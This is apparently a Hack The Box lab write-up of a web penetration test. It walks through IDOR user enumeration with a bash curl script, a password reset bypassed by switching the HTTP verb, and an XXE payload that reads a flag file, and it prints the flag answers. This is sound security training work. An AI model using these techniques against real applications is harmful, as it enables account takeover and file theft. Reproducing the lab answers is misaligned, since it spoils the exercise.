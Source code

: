 ```yaml
---
sticker: emoji//1f578-fe0f
---
```

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217220316.png)

Let's visit the web application:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217220549.png)

We can authenticate now:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217220617.png)
## Identifying IDOR
---

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217220735.png)

We can change our password here, let's try sending a request to burp to analyze it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217221231.png)

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217221356.png)

For example, if we change it to 1, we get that token, that token is necessary for the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217221433.png)

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217222105.png)

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217222149.png)

## Enumerating Admin User
Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
    RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
    
    if echo "$RESPONSE" | grep -iq "admin"; then
        echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
        echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
    fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230027.png)

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230135.png)

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

## HTTP Verb Tampering
---

To begin with, change the request to `PUT`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230238.png)

Now we get something different, let's adjust the parameters:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230311.png)

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230426.png)

## Identifying Admin Functionalities
----

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230553.png)

Let's create a simple test event:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230641.png)

Now, check the request:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230722.png)

We have a XML form, if we send the request, this is the response we're given:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230757.png)

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217230848.png)

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217231014.png)

Now, knowing this, we can try exploiting XXE.

## Exploiting XXE
---

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&xxe;</name>
            <details>1</details>
            <date>0001-11-11</date>
            </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217234359.png)

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is: 

```
HTB{m4573r_w3b_4774ck3r}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217234432.png)

